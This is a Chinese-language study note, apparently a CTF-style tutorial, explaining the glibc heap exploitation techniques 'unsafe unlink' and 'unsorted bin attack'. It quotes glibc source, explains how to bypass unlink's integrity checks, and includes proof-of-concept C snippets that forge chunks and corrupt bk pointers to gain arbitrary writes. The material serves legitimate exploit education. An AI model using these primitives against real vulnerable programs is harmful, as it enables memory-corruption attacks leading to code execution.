







## unsafe-unlink  

|||
|-|-|
|版本|latest|
|效果|使目標ptr從指向UAF chunk改為ptr-0x18|

unlink的目的為把空閒的heap從雙向陣列中拿出來，這幾種狀況會觸發:  

1. malloc()
    - 當在剛好大小符合的 large chunk 中取出 chunk 時
    - 當從比請求大小大的 bin 中取出 chunk 時
2. free(), malloc_consolidate()
    - 合併前後freed chunk
3. relloc()
    - 合併前向freed chunk

### unlink_chunk()

```c
unlink_chunk (mstate av, mchunkptr p)
{
  if (chunksize (p) != prev_size (next_chunk (p)))
    malloc_printerr ("corrupted size vs. prev_size");

  mchunkptr fd = p->fd;
  mchunkptr bk = p->bk;

  if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
    malloc_printerr ("corrupted double-linked list");

  fd->bk = bk;
  bk->fd = fd;
  if (!in_smallbin_range (chunksize_nomask (p)) && p->fd_nextsize != NULL)
    {
      if (p->fd_nextsize->bk_nextsize != p
      || p->bk_nextsize->fd_nextsize != p)
    malloc_printerr ("corrupted double-linked list (not small)");

      if (fd->fd_nextsize == NULL)
    {
      if (p->fd_nextsize == p)
        fd->fd_nextsize = fd->bk_nextsize = fd;
      else
        {
          fd->fd_nextsize = p->fd_nextsize;
          fd->bk_nextsize = p->bk_nextsize;
          p->fd_nextsize->bk_nextsize = fd;
          p->bk_nextsize->fd_nextsize = fd;
        }
    }
      else
    {
      p->fd_nextsize->bk_nextsize = p->bk_nextsize;
      p->bk_nextsize->fd_nextsize = p->fd_nextsize;
    }
    }
}
```

#### 目的

unsafe unlink的目標為利用這段unlink_chunk()中的  

```c
fd->bk = bk;
bk->fd = fd;
```

可以達成任意讀寫

#### 三個check  

unlink_chunk()中有三段檢查:

1. 檢查p->fd->bk == p &&  p->bk->fd == p

    ```c
    if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
        malloc_printerr ("corrupted double-linked list");
    ```

2. 檢查當前chunksize是否為下一個chunk的prev_size

    ```c
    if (chunksize (p) != prev_size (next_chunk (p)))
        malloc_printerr ("corrupted size vs. prev_size");
    ```

3. 檢查非smallbin的chunk，`fd_nextsize`和`bk_nextsize`的完整性

    ```c
    if (!in_smallbin_range (chunksize_nomask (p)) && p->fd_nextsize != NULL)
        if (p->fd_nextsize->bk_nextsize != p|| p->bk_nextsize->fd_nextsize != p)
            malloc_printerr ("corrupted double-linked list (not small)");
    ```

### 初始化

我們希望這些chunk的大小會被放到unsorted bin，而不是fastbin或tcache

```c
uint64_t *ptr0, *ptr1;
ptr0 = (uint64_t *)malloc(0x410);
ptr1 = (uint64_t *)malloc(0x410);

target = ptr0;

printf("chunk_1: %p chunk_2: %p\n", ptr0, ptr1);
printf("target: %p\n\n", &target);
```

這是最初始chunk的狀態  


### bypass第一個check

現在要做的是，偽造一個fake_chunk在chunk_1 + 0x10  
接著把fake_chunk->fd 設為target - 0x18  
把fake_chunk->bk 設為target - 0x10  

```c
target[2] = (uint64_t)(&target - 0x3);
target[3] = (uint64_t)(&target - 0x2);  
```

  
然後可以bypass第一個check，因為`x->bk` 會相等於`x[3]`，`x->fd`會等同於`x[2]`


### bypass第二個和第三個check

```c
/* fake a chunk at chunk_1 + 0x10 */
target[0] = 0x0;     // fake_chunk prev size
target[1] = 0x410;   // fake_chunk size

/* unset "PREV_INUSE", faking chunk_1 as freed */
ptr1[-2] = 0x410;    // chunk_2 prev size
ptr1[-1] = 0x420;    // chunk_2 size (can be done with a bug like a heap overflow)
target[4] = 0x0;     // fd_nextsize
```



### free

成功觸發了unlink，執行`BK->fd = FD`，成功達成目標


- [reference](https://blog.csdn.net/m0_64195960/article/details/125371765)

## unsorted bin attack

|||
|-|-|
|版本|< glibc 2.29|
|效果|可以把unsorted_chunk (av) 寫到任意位址|

### __int_malloc()

在`__int_malloc()`有這麼一段程式碼  

```c
/* remove from unsorted list */
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
```

_malloc.c: 3777_  

其用途可以在unsorted_bin 遍歷過這個chunk的時候將他從double list移除
但我們如果可以控制到bck的位址，那就可以將在隨意位址寫入`unsorted_chunks (av)`的位址

### 初始化

```c
unsigned long *ptr0 = malloc(0x410);
unsigned long *ptr1 = malloc(0x420);
unsigned long *ptr2 = malloc(0x430);
```

在一開始我們可以看到unsorted_chunks(av)的fd和bk都指向自己


### free

```c
free(ptr0);
```



```c
free(ptr2);
```


free(ptr2)單純是方便觀察，如果只free(ptr0)也是可行的




### 竄改ptr0->bk

將chunk_1->bk 竄改為target-0x10

```c
ptr0[1] = (unsigned long)(&target - 0x2);
```


### malloc

malloc 跟竄改的chunksize一樣的大小


### 小發現

值得一提的是，因為unsorted bin要從尾端拿值出來，所以他會先往bk方向遍歷  
而我們chunk 1的bk已經被控制了(也就是說double linked list的結構崩壞)
所以接下來只要在malloc一次就會崩潰  

> 要注意使用到函數有調用malloc的(例如第一次呼叫printf)  
